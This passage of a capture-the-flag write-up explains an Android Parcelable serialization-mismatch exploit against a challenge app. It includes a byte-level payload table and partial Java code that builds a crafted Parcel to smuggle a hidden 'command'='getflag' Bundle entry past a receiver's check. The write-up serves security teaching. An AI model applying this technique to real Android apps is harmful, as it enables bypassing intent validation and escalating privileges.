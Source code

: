 `writeString`will put '\0' to the end of string. 
PAD_SIZE will make the length of unit be the multipiles of 4.

## Writeup
`MainActivity$Message` is a class implementing from `Parceable`.
There are two type-difference:
1. 
```
this.txRate = in.readInt();
dest.writeByte((byte) this.txRate);
```
2. 
```
this.rttSpread = in.readLong();
dest.writeInt((int) this.rttSpread);
```

Through test I found that the first type-difference which in byte and int will not create influence, because of PAD_SIZE.
So the second type-difference will cover 4 bytes after `Message` object every times `readFromParcel` and `writeToParcel`.

The intent of this challenge is to hide a key-value pair `'command'='getflag'`, and expoes it when second reading.

The order of bundle is 'length of key, content of key, type of value, length of value, content of value'.

It means that the writing will cover `length of key` and make the first 4 bytes of origin `content of key` the new `length of key`.

So we can construct this payload:
Message|len_key|content_key|type_value|len_value|content_value|
--|--|--|--|--|--|
pad|15 00 00 00|07 00 00 00 "command" 00 00 00 00 00 00 07 00 00 00 "getflag" 00 00| 00 00 00 00|03 00 00 00| "pad" |
pad 15 00 00 00|07 00 00 00| "command" 00 00|00 00 00 00|07 00 00 00|"getflag" 00 00

The format of string is UTF-16, two bytes every char.
type=0 means `VAL_STRING`.

Another need to do is that `Receiver2` need `bundle.getString("command")!=null`, so we need another key-value pair `'command'='xxx'`.


So one of the payloads is:
```java
        Parcel a = Parcel.obtain();
        Parcel b = Parcel.obtain();
        a.writeInt(3);//Count
        a.writeString("mismatch");
        a.writeInt(4);//Parcable
        a.writeString("com.de1ta.broadcasttest.MainActivity$Message");
        a.writeString("bssid");
        a.writeInt(1);
        a.writeInt(2);
        a.writeInt(3);
        a.writeInt(4);
        a.writeInt(5);
        a.writeInt(6);
        a.writeInt(7);
        a.writeLong(8);
        a.writeInt(9);
        a.writeInt(10);
        a.writeInt(-1);
        a.writeLong(11);
        a.writeLong(12);
        a.writeLong(0x11223344);
```